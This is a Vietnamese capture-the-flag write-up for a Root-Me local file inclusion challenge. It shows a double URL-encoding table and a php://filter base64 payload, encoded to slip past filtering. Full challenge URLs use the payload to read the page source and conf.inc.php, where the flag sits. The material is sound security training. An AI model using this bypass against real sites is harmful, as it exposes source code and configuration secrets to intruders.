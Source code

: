 # Local File Inclusion - Double encoding

- 30 Points  

- Include can be dangerous

- No hints

# Overview:

![image](https://user-images.githubusercontent.com/115911041/229867328-8eca7f32-7935-45ff-a99e-2c6131de8847.png)

Theo đề bài nói ta cần phải double encode filepath để tránh bị phát hiện.

# Solution:

| Char | simple encoding | double encoding |
| :---:|      :---:      |      :---:      |
| :    | :3A             | : %253A         |
| /	   | : 2F	           | : %252F         |
| .	   | : 2E	           | : %252E         |
| -	   | : 2D	           | : %252D         |
| =	   | : 3D	           | : %253D         |
| <    | : 3C            | : %253C         |
| >    | : 3E            | : %253E         |

Chúng ta sử dụng payload `php://filter` với [base64 encoding](https://www.base64decode.org/). Các payload tham khảo [tại đây](https://github.com/payloadbox/rfi-lfi-payload-list)

`php://filter/convert.base64-encode/resource=cv`

Sau đó double encoding

`php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv`

Ta có thể encode cả URL

http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv

Ta được kết quả là 1 chuỗi kí tự dài.Copy chuỗi đó vào Base64 encoded ta được

`<?php include("conf.inc.php"); ?>`

Nhận thấy có lệnh `include()` vậy chắc chắc flag nằm trong `conf.inc.php` 

http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf

Kết quả ta nhận được là 1 chuỗi dài như lúc trước. Tiếp tục base64 encoded, ta có được flag

![image](https://user-images.githubusercontent.com/115911041/229880520-032057ad-7f3d-496e-917e-e07cdfc600d9.png)
